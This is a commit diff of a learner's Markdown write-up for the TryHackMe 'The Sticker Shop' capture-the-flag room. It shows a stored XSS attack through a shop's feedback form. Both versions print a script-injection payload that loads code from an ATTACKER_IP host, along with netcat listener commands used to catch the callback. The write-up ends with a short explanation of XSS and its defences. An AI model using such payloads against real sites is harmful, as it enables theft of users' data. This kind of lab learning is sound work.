

Before and after one commit to Truquero/TryHackMeChallenges, a Markdown page: Easy challenges/The Sticker Shop.md, the part around the change. Rendered like a GitHub page; pictures changed too: images/The Sticker Shop1.png (added); blank space fills up the shorter version.

Commit message:
The Sticker Shop COMPLETED

```diff
--- a/Easy challenges/The Sticker Shop.md
+++ b/Easy challenges/The Sticker Shop.md
@@ -10,10 +10,30 @@ This challenges challenge us on finding the flag on the webpage `http://MACHINE_
 
 ## Challenge
 
-First we go to the page that the challenge gave us that is `http://MACHINE_IP:8080/flag.txt` and we do not have the permits to enter, with this obstacle we go to `http://MACHINE_IP:8080` which is a online shop for stickers. There is a sub page that is interesting and it is the feedback. By using curl we archieve nothing, we change or stategy by thinking that is possible a XSS attack by feedback. To answer this question we are going to put a payload on the feedback just like this `'"><script src=http://ATTACKER_IP:9999></script>` and in out terminal put a nc -lsvp 9999 to capture the conexion we establish with the payload. This test is sucessfull and we confirm that we can attack XSS.
+First we go to the page that the challenge gave us that is `http://MACHINE_IP:8080/flag.txt` and we do not have the permits to enter, with this obstacle we go to `http://MACHINE_IP:8080` which is a online shop for stickers. There is a sub page that is interesting and it is the feedback. By using curl we archieve nothing, we change or stategy by thinking that is possible a XSS attack by feedback. To answer this question we are going to put a payload on the feedback just like this `'"><script src=http://ATTACKER_IP:9999></script>` and in out terminal put a nc -lsvp 9999 to capture the conexion we establish with the payload. This test is sucessfull and we confirm that we can attack by XSS.
 
-The next step is having a script to give us the flag,
+The next step is having a script to give us the flag, the script to utilize is the next one:
 
---Under Construction
+![Payload](../images/The%20Sticker%20Shop1.png)
+
+Thanks the use of the command `nc -lvnp 7777` and submit or payload and got our flag thanks to the command.
+
+## What I learn
+
+### Cross-Site Scripting Attack
+
+**XSS** is an attack to the javascript of the webpage. It recieve a payload with code in javascript that can give sensible information to the attacker if they put the correct payload.
+
+There are three main types of attacks but the one we utilize is:
+
+- Reflected XSS: The malicious script comes from the current HTTP request.
+
+The way of protecting the server of this attack is:
+
+- Filter Input on Arrival
+- Use Appropriate Response Headers
+- Content Security Policy (CSP)
 
 ## Conclusion
+
+I did not know that there was vulerabilities like XSS and also I did not know how to manage this vulnerabilities. However is similar as SQL you just need to know the struture of JavaScript to exploit the vulnerability.
```
